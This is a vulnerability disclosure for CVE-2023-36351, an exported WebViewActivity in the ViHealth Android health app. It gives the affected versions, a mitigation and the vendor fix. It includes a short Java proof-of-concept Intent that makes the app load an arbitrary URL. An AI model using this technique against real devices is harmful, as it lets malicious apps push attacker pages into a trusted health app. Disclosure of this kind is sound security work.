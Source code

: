 CVE-2023-36351 ** RESERVED ** An issue in Viatom Health ViHealth for Android v.2.74.58 and before allows a remote attacker to execute arbitrary code via the com.viatom.baselib.mvvm.webWebViewActivity component.

~

Vendor of Product: Viatom Health     

Vulnerability Type: CWE-926: Improper Export of Android Application Components


Affected Product: ViHealth for Android v.2.74.58* & earlier (com.viatom.vihealth)

Affected Component: Exported Activity "com.viatom.baselib.mvvm.web.WebViewActivity"

Attack Type: Adjacent

The Android application contains an exported component that allows access by other applications without proper access control restrictions. 

This vulnerability could allow a 3rd party application installed on the device to launch the exported activity and access the data it contains.

A malicious app can load the URL of their choice to facilitate malicious actions.

See https://cwe.mitre.org/data/definitions/926.html

This issue can be mitigated by changing exported status of the activity reflected on the AndroidManifest.xml entry:

![image](https://github.com/actuator/cve/assets/78701239/84dae93b-0abe-469f-b936-f2d2cca61e9d)


An attacker could craft a 3rd party app using the following code to load the URL of their choice to facilitate malicious actions:



********************************************************************************************************************************

Intent launch = new Intent();
launch.setClassName("com.viatom.vihealth", "com.viatom.baselib.mvvm.web.WebViewActivity");

// Put the URL to be loaded in the WebViewActivity
launch.putExtra("web_url", "https://www.windows93.net");

// Start the activity
startActivity(launch);

********************************************************************************************************************************



![com viatom baselib mvvm web WebViewActivity](https://github.com/actuator/cve/assets/78701239/b4fe4884-58d3-4799-b2ab-26db8744309c)


![image](https://github.com/actuator/cve/assets/78701239/e37edb0d-94f4-487d-b547-f2ba4d6037ea)

**This issue has been fixed today (6/19/23) with version (2.74.62)-shortly after I reported it to the vendor on 6/10/23.




![image](https://github.com/actuator/cve/assets/78701239/4c2b98e8-2407-4325-bc96-8de0dae71443)


Discoverer: Edward Warren

https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-36351
